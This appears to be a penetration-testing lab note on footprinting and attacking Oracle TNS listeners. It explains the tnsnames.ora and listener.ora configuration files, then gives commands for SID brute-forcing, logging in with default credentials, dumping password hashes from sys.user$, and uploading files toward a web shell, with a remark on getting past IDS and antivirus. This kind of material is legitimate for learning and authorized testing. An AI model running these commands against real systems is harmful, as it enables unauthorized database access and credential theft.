 ```yaml
---
description: Transport Network Substrate
---
```


# (1521)Oracle TNS

{% hint style="info" %}
<mark style="color:blue;">This document will be published upon completion of the module.</mark>
{% endhint %}

## About

The Oracle Transparent Network Substrate (TNS) is a communication protocol **designed to facilitate interactions between Oracle databases and applications over networks**. Initially introduced as part of the Oracle Net Services suite, it supports various networking protocols, such as IPX/SPX and TCP/IP, making it a preferred choice for managing large, complex databases in industries like healthcare, finance, and retail. Its built-in encryption ensures secure data transmission, making it ideal for enterprise environments with high data security needs.

Over time, TNS has evolved to support newer technologies like IPv6 and SSL/TLS encryption, further enhancing its functionality. These updates make TNS suitable for tasks such as:

* Name resolution
* Connection management
* Load balancing
* Security enhancement

TNS adds an extra layer of encryption between client-server communication over the TCP/IP protocol, helping secure databases from unauthorized access and network traffic attacks. Additionally, it offers advanced tools for database administrators and developers, including performance monitoring, error reporting, workload management, and fault tolerance through database services.

### Default Configuration

{% hint style="warning" %}
You should know that the listening port can be changed during installation.&#x20;
{% endhint %}

By default and depending on the version, the TNS listener includes certain security features like a default password, allows connection from the only authorized hosts, perform basic authentication, uses Oracle Net Services to encrypt communication between the client and server.

The configuration files for Oracle TNS are called `tnsnames.ora` and `listener.ora` .

### tnsnames.ora

Each database or service has a unique entry in the [tnsnames.ora](https://docs.oracle.com/cd/E11882\_01/network.112/e10835/tnsnames.htm#NETRF007) file, containing the necessary information for clients to connect to the service. The entry consists of a name for the service, the network location of the service, and the database or service name that clients should use when connecting to the service.&#x20;

* **Client-side configuration**.
* Defines the network service names and connection details used by clients to connect to Oracle databases.
* Maps human-readable service names to network addresses (e.g., database name, protocol, host, port).
* Used by clients to locate and connect to the appropriate Oracle database instance.

For example, a simple `tnsnames.ora` file might look like this:

```txt
ORCL =  <- Service name
  (DESCRIPTION =
    (ADDRESS_LIST =
      (ADDRESS = (PROTOCOL = TCP)(HOST = 10.129.11.102)(PORT = 1521)) <- IP+Port to connect to
    )
    (CONNECT_DATA =
      (SERVER = DEDICATED)
      (SERVICE_NAME = orcl) <- clients should use the name orcl when connecting to the service.
    )
  )
```

### listener.ora

The `listener.ora` file is a server-side configuration file that specifies the properties and parameters of the listener process, which handles incoming client requests and routes them to the correct Oracle database instance.

* **Server-side configuration**.
* Specifies the settings for the Oracle listener, a process that receives incoming client connection requests.
* Defines the listener's protocol addresses (e.g., TCP/IP, port) and the Oracle database instances it services.
* Controls how client requests are routed to the appropriate database instance.



```txt
SID_LIST_LISTENER =
  (SID_LIST =
    (SID_DESC =
      (SID_NAME = PDB1)
      (ORACLE_HOME = C:\oracle\product\19.0.0\dbhome_1)
      (GLOBAL_DBNAME = PDB1)
      (SID_DIRECTORY_LIST =
        (SID_DIRECTORY =
          (DIRECTORY_TYPE = TNS_ADMIN)
          (DIRECTORY = C:\oracle\product\19.0.0\dbhome_1\network\admin)
        )
      )
    )
  )

LISTENER =
  (DESCRIPTION_LIST =
    (DESCRIPTION =
      (ADDRESS = (PROTOCOL = TCP)(HOST = orcl.inlanefreight.htb)(PORT = 1521))
      (ADDRESS = (PROTOCOL = IPC)(KEY = EXTPROC1521))
    )
  )

ADR_BASE_LISTENER = C:\oracle
```

> In short, the client-side Oracle Net Services software uses the `tnsnames.ora` file to resolve service names to network addresses, while the listener process uses the `listener.ora` file to determine the services it should listen to and the behavior of the listener.

## Footprinting

Before installation, we should install dependencies using this bash script:

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

```shell-session
$ ./odat.py -h
```

### Nmap

```shell-session
$ sudo nmap -p1521 -sV <TARGET> --open
```

To connect to a database in ODBMS we will need a System Identifier (SID) which is the unique name to identify the database. So intuitively, not providing the correct SID will lead the connection to fail. So we need an SID which we will obtain using a bruteforcing tool (nmap, odat, hydra ..etc)

{% hint style="info" %}
Although calling Nmap a bruteforcing isn't technically correct, but we will using that feature.
{% endhint %}

### SID Bruteforcing

#### Nmap

```shell-session
$ sudo nmap -p1521 -sV <TARGET> --open --script oracle-sid-brute
```

#### odat.py

```shell-session
$ ./odat.py all -s <TARGET>

[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...

...SNIP...
```

{% hint style="success" %}
Upon finding correct credentials, we're able to connect to the database.
{% endhint %}

### Interacting with the server

```shell-session
$ sqlplus username/password@TARGET/SID
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory 

$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

With a bit of  [SQLplus commands](https://docs.oracle.com/cd/E11882\_01/server.112/e41085/sqlqraa001.htm#SQLQR985) we can move around and footprint the databases.

```sql
SQL> select table_name from all_tables;
SQL> select * from <tablename>;
```

We can try to connect as an administrator from the obtained usernames above:

```shell-session
$ sqlplus scott/tiger@10.129.204.235/XE as sysdba 
```

If this works we can enumerate further:

```sql
SQL> select * from user_role_privs;
```

#### Password hashes retrieval

```sql
SQL> select name, password from sys.user$;
```

{% hint style="info" %}
Another approach consists of uploading a web shell only if the server is running a webserver and we know its [root directory](../../../introduction-and-getting-started/shells-and-ssh/setting-up-shells.md#id-3.-web-shells). Here's how it goes:

First, we try to inject a non malicious file to see if it goes through IDS/IPS systems or Antiviruses and then test if the injection was successful.

```shell-session
$ ./odat.py utlfile -s <TARGET> -d XE -U username -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
$ curl -X GET http://10.129.204.235/testing.txt
```
{% endhint %}

